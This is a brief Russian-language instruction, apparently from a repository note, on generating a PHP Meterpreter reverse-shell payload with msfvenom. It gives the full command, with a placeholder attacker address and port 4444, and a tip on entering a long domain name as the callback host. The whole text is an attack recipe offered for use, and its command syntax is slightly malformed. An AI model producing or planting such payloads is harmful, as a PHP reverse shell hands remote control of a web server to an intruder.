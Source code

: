 Генерируем payload php в msfvenom.
Пример:
msfvenom -p php/meterpreter_reverse_tcp LHOST ip_адрес LPORT=4444 -f raw > meterpreter_reverse_tcp.php
p.s. Если в LHOST длинное доменное имя, то пишем LHOSTдоменное_имя (слитно)